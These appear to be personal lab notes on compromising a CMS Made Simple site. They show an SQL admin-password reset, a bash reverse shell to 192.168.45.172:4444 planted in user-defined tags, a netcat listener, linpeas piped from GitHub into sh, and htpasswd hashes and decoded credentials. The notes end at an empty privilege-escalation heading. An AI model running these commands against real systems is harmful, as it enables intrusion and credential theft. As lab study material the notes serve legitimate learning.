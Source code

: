 cms dev blog on changing logins
https://cmscanbesimple.org/blog/cms-made-simple-admin-password-recovery

```
update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'admin'))) where username = 'admin';
```
![[Pasted image 20231104144709.png]]

seems it worked

![[Pasted image 20231104144740.png]]


Add this to the user defined tags then set listener on kali. Wrap the bash revshell since it crashes the site normally
```
system("bash -c 'sh -i >& /dev/tcp/192.168.45.172/4444 0>&1'");
```

```
nc -nlvp 4444
```

listening on [any] 4445 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.172.74] 40518
sh: 0: can't access tty; job control turned off
$ whoami
www-data

upgrade shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


run linpeas

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
	╔══════════╣ Analyzing Htpasswd Files (limit 70)
	-rw-r--r-- 1 root root 44 May 31  2020 /etc/apache2/.htpasswd                                                                                                          
	admin:$apr1$xcVPTQ1f$RSPY3ZneahnCI1a6Qr32S1
	-rw-r--r-- 1 www-data www-data 45 Jun 24  2020 /var/www/html/admin/.htpasswd
	TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0=

Base 64 decode: TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0=

echo TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0= | base64 -d       
	MFZG233VOI5FG2DJMVWGIQBRGIZQ====
		Turns out this is base 32 so need to decode it again
echo TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0= | base64 -d | base32 -d
	armour:Shield@123



# Priv Esc

